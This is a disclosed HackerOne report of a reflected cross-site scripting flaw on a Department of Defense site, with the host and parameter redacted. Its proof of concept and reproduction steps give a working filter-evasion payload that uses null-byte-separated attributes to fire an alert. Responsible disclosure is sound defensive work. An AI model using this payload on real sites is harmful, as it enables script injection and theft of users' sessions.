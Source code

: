 # XSS on https://██████/███ via █████ parameter

## Report Details
- **Report ID**: 1252059
- **URL**: https://hackerone.com/reports/1252059
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-07-05T20:30:04.125Z
- **Disclosed**: 2022-04-07T19:56:34.279Z

## Reporter
- **Username**: homosec
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
PoC
```
https://██████████/███████████=███████"><details%00open%00ontoggle=alert()>
```
████████

## Impact

XSS at https://█████████/

## System Host(s)
█████████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
Go to https://████/██████████████████=████"><details%00open%00ontoggle=alert()>

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
